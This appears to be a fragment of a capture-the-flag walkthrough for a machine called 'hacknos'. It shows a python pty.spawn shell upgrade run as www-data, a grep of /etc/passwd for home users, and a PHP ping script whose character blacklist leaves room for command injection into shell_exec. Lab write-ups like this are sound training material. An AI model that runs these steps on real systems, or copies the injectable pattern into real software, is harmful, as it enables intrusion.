 ### pty

```shell
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@hacknos:/home/recon$
```

### /home users

```shell
www-data@hacknos:/home/recon$ cat /etc/passwd | grep /home
cat /etc/passwd | grep /home
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
recon:x:1000:119:rahul:/home/recon:/bin/bash

```

### /var/www/recon/5ecure/out.php

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```
